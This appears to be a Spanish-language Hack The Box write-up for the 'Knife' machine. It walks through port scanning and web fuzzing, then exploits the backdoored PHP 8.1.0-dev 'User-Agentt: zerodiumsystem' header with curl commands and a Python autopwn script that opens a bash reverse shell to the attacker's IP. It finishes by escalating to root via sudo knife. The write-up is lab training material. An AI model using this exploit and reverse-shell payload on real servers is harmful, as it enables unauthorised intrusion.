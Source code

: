 ```yaml
---
layout: post
title: HTB_Knife
date: 2023/07/10
slug: HTB_Knife
heroImage: /assets/machines.jpg
---
```


# Knife {-}

## Introduccion {-}

La maquina del dia se llama Knife.

El replay del live se puede ver aqui

[![S4vitaar Knife maquina](https://img.youtube.com/vi/Um6-iIYzUWk/0.jpg)](https://www.youtube.com/watch?v=Um6-iIYzUWk)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.242
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.242
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,80 10.10.10.242 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 22     | tcp      | Conneccion directa | creds      |
| 80     | tcp      | Web, Fuzzing       |            |

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.242
```

Es un Apache 2.4.41 en un Ubuntu Con una version 8.1.0-dev de PHP. 


#### Checkear la web {-}

Si entramos en la url `http://10.10.10.242`, No vemos gran cosas tenemos que aplicar Fuzzing.

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.242/FUZZ
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,txt-php http://10.10.10.242/FUZZ.FUZ2Z
```

Tampoco encontramos gran cosa por aqui.

#### Analyzamos las cabezeras de la respuesta al lado del servidor {-}

```bash
curl -s -X GET http://10.10.10.242 -I
```

No vemos nada. Miramos por la version de php que parece un poco rara.


## Vulnerability Assessment {-}


### php 4.1.0-dev {-}

Si buscamos en google pro `PHP 8.1.0 exploit` vemos una pagina que habla de User-Agent Remote Code Execution.

La vulnerabilidad aqui reside en poner un User-Agentt con 2 T con un zerodiumsystem command.

```bash
"User-Agent": "Mozilla/5...."
"User-Agentt": "zerodiumsystem('" + COMMANDO + "');"
```

Lo intentamos

```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('whoami');"
#Output 
james
...

curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" head -n 1
```
## Vuln exploit & Gaining Access {-}

### Ganando accesso con un Autopwn en Pyton {-}

```python
#!/usr/bin/python3

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.242/"
lport = 443

def makeRequest():

    headers = {
        'User-Agentt': 'zerodiumsystem("bash -c \'bash -i >& /dev/tcp/10.10.14.15/443 0>&1\'");'
    }

    r = requests.get(main_url, headers=headers)

if __name__ == '__main__':

    p1 = log.progress("Pwn Web")
    p1.status("Explotando vulnerabilidad PHP 8.1.0-dev - User Agentt Remote Code Execution")

    time.sleep(2)

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        p1.failure("No ha sido posible comprometer el sistema")
        sys.exit(1)
    else:
        p1.success("Comando inyectado exitosamente")
        shell.sendline("sudo knife exec -E 'exec \"/bin/sh\"'")
        shell.interactive()
```

Lo lanzamos con el commando `python3 autopwn.py`

```bash
whoami
#Output
james

hostname -I
#Output
10.10.10.242
```

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
```

Podemos ejecutar el commando `/usr/bin/knife` como el usuario root sin proporcionar contraseña.

buscando por [gtfobins](https://gtfobins.github.io/gtfobins/knife/#sudo), vemos que podemos usar este
commando para ejecutar una shell.

```bash
sudo knife exec -E 'exec "/bin/bash"'
whoami
#Output 
root
```

Ya podemos leer la flag root.txt
